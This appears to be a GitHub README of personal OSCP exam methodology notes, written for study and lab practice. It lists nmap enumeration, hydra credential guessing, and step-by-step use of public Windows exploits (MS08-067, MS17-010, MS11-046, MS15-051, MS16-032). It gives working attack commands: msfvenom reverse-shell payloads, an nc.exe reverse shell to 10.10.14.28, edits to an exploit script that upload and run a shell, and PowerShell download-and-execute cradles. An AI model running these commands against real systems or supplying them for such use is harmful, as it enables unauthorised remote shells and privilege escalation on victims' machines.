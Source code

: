# oscp_methodology
OSCP Methodology


## Blackbox Enumeration
#### nmap full tcp port scan
##### nmap \<ip> -sV -sC -O -T4 --traceroute -p - -oA ~/path/filename

#### Ftp
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* Anonymous login
* Put files
  * if exists web service, check if web and ftp has the same path
* nmap info

#### SSH
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* nmap info

#### Samba
* nmap info:
  * OS samba
  * Computer name/NetBIOS name
  * Domain name
  * Workgroup
  * OS of machine

* service (OS samba or nmap service header (139 & 445)) -> exploit
##### nmap -sV -sC --open -T4  -p 139,445 --script=vuln --script-args=unsafe=1 <ip>
* enum4linux
* smbclient
 

## Exploits
### Windows
#### MS08-067
git clone https://github.com/andyacer/ms08_067.git
* configuration
  * pip install impacket
* 2 reverse options for shellcoding:
  * Use the third with 443
  * Use the third with default
  * Use second with default
  * Use second with port of third or another port
* Choose the right option of menu.
  * Find OS of machine
  * Guess lanhuage
* Needs Listener

### Windows
#### MS17-010
git clone https://github.com/worawit/MS17-010.git

##### zzz_exploit.py:
 * If needed USERNAME-"//"
 * next add the following 2 lines to below def smb
   
   smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
   
   service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
 
* custom payload:
  ##### msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=443 -f exe > shell.exe

* Needs Listener

##### eternalblue_exploit7.py

* use the https://github.com/nickvourd/eternalblue_win7_auto_gen in order to merge binaries nad payload
* Run the following: python MS17-010/eternalblue_exploit7.py <ip> /tmp/sc_x<arch>.bin
* Needs Listener

### Windows
#### MS11-046

* use the https://www.exploit-db.com/exploits/40564
* compile:
  ##### i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 
  
  ###### Installation: apt install mingw-w64
* no need listener (insta run)

### Windows
#### MS15-051

* use the https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip
* Check the architecture of victim and choose the right exe
* upload to victim machine
* run the following:
  ###### ms15-051x64.exe "nc.exe 10.10.14.28 4444 -e cmd.exe"
* Needs Listener

### Windows
#### MS16-032

* use https://www.exploit-db.com/exploits/39719
* Edit the file:
  * end of file add this Invoke-MS16-032
  * Inside th file search and find cmd.exe two times.
  * Change with shell.exe in current directory in victim which you are.
  * generate shell.exe:
    ###### msfvenom -p windows/shell_reverse_tcp LHOST=\<ip> LPORT=6666 -f exe > shell.exe
  * serve the shell.exe to victim
  * open a listener
  * run the ps1 exploit:
    ##### C:\windows\sysnative\windowspowershell\v1.0\powershell IEX(New-Object Net.WebClient).downloadString('http://\<ip>/ms16032.ps1')
  
## Privilege Escalation
### Windows
* systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
  * searchsploit
  * google

* systeminfo
  * Architecture
  * Numbers of Proccessors
  * Domain
  * HotFixes
  * System Locale
  * Input Locale
  
 * Serlock
   * Config: Add to the last line the "Find-AllVulns"
   * Download and run Sherlock:
     ##### echo IEX(New-Object Net.WebClient).DownloadString('http://\<ip>:\<port>/Sherlock.ps1') | powershell -noprofile -
 
 * Watson
   * Find .NET latest version of victim:
     ##### dir %windir%\Microsoft.NET\Framework /AD
   * Fow older than windows 10 download zip version of watson v.1: https://github.com/rasta-mouse/Watson/tree/486ff207270e4f4cadc94ddebfce1121ae7b5437
   * Build exe to visual studio
   
* PowerUP
   * Config: add to the last line the "Invoke-AllChecks"
   * Download and run PowerUp:
     ##### echo IEX(New-Object Net.WebClient).DownloadString('http://\<ip>:\<port>/PowerUp.ps1') | powershell -noprofile -
     
